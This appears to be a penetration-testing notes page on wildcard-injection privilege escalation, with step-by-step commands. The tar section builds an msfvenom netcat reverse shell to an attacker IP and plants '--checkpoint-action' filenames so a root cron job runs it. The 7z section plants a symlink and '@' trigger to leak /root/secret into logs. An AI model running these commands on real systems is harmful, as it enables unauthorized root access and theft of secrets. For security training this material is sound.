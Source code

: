 # Wildcard Injection

## Tar

**Wildcard injection** is a privilege escalation technique that abuses how shell wildcards (`*`) expand to filenames. If a privileged script (like a cron job) runs a command such as:

```bash
tar -zxf file.tar.gz *
```

...and we control the directory it's run in, we can create files with names like:

* `--checkpoint=1`
* `--checkpoint-action=exec=sh shell.sh`

These are interpreted by `tar` as **command-line options**, not regular files. This lets us inject malicious behavior — like running our own script as `root` — when the privileged `tar` command executes.

```
[ You control a writable dir ] 
         ↓
[ Cron runs: tar -zxf backup.tar.gz * ]
         ↓
[ You create fake files named as tar options ]
         ↓
* expands to:
    --checkpoint=1
    --checkpoint-action=exec=sh shell.sh
         ↓
[ tar executes your shell.sh as root ]
```

We can use [`pspy`](../tl-dr/infra/infra-tools/pspy.md) or [manually enumerate](../tl-dr/infra/os/linux/#scheduled-jobs) the target host:

{% code overflow="wrap" %}
```bash
# Enumerate running processes
$ ./pspy
2025/05/24 20:46:01 CMD: UID=0     PID=30275  | /bin/bash -c cd /opt/admin && tar -zxf /tmp/backup.tar.gz *

# Manually enumerate cron jobs
$ cat /etc/crontab
*/2 * * * * root cd /opt/admin && tar -zxf /tmp/backup.tar.gz *
```
{% endcode %}

The cronjob runs every two minutes as `root` and extracts the `backup.tar.gz` tarball from the `/tmp` directory into the `/opt/admin` directory using a wildcard (`*`). If we have access on the target directory (`/opt/admin`) we can perform a wildcard injection:

```bash
# Check the target directory's permissions
$ ls -ld /opt/admin
drwxr-xr-x 2 cassie cassie 4096 Nov  2  2022 /opt/admin
```

{% code overflow="wrap" %}
```bash
# Generate a reverse shell payload command on the attacking host
$  msfvenom -p cmd/unix/reverse_netcat LHOST=192.168.X.154 LPORT=443 R
...
mkfifo /tmp/bhksuw; nc 192.168.X.154 443 0</tmp/bhksuw | /bin/sh >/tmp/bhksuw 2>&1; rm /tmp/bhksuw
```
{% endcode %}

In order for this to work, we must create both the `--checkpoint` files and the payload script (`shell.sh`) within the target directory (`/opt/admin`) before the cron job runs. This makes the `*` expand to those filenames, effectively injecting the checkpoint options into `tar`:

{% code overflow="wrap" %}
```bash
# Move into the target directory
$ cd /opt/admin

# Create the reverse shell script
$ echo "mkfifo /tmp/bhksuw; nc 192.168.X.154 443 0</tmp/bhksuw | /bin/bash >/tmp/bhksuw 2>&1; rm /tmp/bhksuw" > shell.sh

# Assing execute permissions to the script
$ chmod +x shell.sh

# Create a checkpoint the executes the script
$ touch -- "--checkpoint-action=exec=sh shell.sh"

# Create the checkpoint trigger
$ touch -- "--checkpoint=1"

# Create an empty tarball within the /tmp directory
$ tar -czf /tmp/backup.tar.gz --files-from=/dev/null

# Confirm that everything is in place
$ ls -l
total 4
-rw-r--r-- 1 cassie cassie   0 May 25 09:35 --checkpoint-action=exec=sh shell.sh
-rw-r--r-- 1 cassie cassie   0 May 25 09:35 --checkpoint=1
-rwxr-xr-x 1 cassie cassie 102 May 25 09:35 shell.sh

$ ls -l /tmp/back*
ls -l /tmp/back*
-rw-r--r-- 1 cassie cassie 45 May 25 09:44 /tmp/backup.tar.gz
```
{% endcode %}

## 7z

In 7-Zip, when a file prefixed with `@` is present in the working directory, the binary interprets it as a **list file**—that is, a file that contains the paths of other files to be compressed. This behavior can be leveraged to leak the contents of privileged files under the right conditions. Even if the filename begins with `--`, which normally indicates the end of command-line options, 7-Zip still processes `@filename` as a list file, treating the referenced path as the source of file paths to include in the archive ([source](https://hacktricks.boitatech.com.br/linux-unix/privilege-escalation/wildcards-spare-tricks#id-7z)).

If a privileged process, such as a `root`-owned cronjob, runs a command like:

```bash
7za a /backup/filename.zip -t7z -snl -p<pass> -- *
```

and if the current working directory is world-writable, it's possible to introduce two specific files: a symbolic link and a trigger:

* The symlink, named `secret.txt`, should point to the file intended to be read, such as `/root/secret`.
* The trigger file, `@secret.txt`, simply needs to exist to instruct 7-Zip to treat `secret.txt` as a list file.

When the cronjob executes, 7-Zip attempts to parse `secret.txt` as a list of files. However, since `/root/secret` likely contains plain text and not valid file paths, **7-Zip throws an error while trying to parse it which often includes part or all of the file's content in the output**. If the command’s standard output or error is logged—as is commonly the case with cronjob output redirected to a log file—this results in the contents of the restricted file being exposed through the log.

```bash
$ cat /etc/crontab
* *     * * *   root    bash /opt/backup.sh
​
$ cat /opt/backup.sh
#!/bin/bash
password=`cat /root/secret`
cd /var/www/html/uploads
rm *.tmp
7za a /opt/backups/backup.zip -p$password -tzip *.zip > /opt/backups/backup.log

# Write access to the target directory
$ ls -ld /var/www/html/uploads
drwxr-xr-x 2 www-data www-data 4096 Aug  7 13:25 /var/www/html/uploads
​
# Create the required files
$ cd /var/www/html/uploads
$ ln -s /root/secret secret.zip
$ touch @secret.zip
```
